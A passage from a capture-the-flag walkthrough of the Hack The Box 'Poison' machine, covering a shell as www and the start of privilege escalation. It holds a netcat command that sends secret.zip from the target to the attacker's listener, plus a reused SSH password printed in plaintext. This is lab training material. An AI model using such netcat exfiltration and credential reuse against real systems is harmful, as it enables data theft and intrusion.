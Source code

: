 ```bash
uid=80(www) gid=80(www) groups=80(www)
sh: can't access tty; job control turned off
$ whoami
www
```

# Privilege Escalation

Looking at `charix`'s home directory showed an interesting `secret.zip` file.

```bash
charix@Poison:~ % ls
secret.zip	user.txt
```

Lets transfer this over to our machine!

```bash
- Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1111 > secret.zip
listening on [any] 1111 ...

- SSH -
charix@Poison:~ % nc -w 3 10.10.14.2 1111 < secret.zip

- Terminal - 
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# nc -nlvp 1111 > secret.zip
listening on [any] 1111 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.84] 63902

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# ls
secret.zip
```

Unzipping the file requires a password. Luckily, the password for the file is the same as the password for SSH! :)

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# unzip secret.zip                         
Archive:  secret.zip
[secret.zip] secret password: Charix!2#4%6&8(0
 extracting: secret                  

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# file secret            
secret: Non-ISO extended-ASCII text, with no line terminators                                            
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Poison]
└─# cat secret                                            
��[|Ֆz!              
```
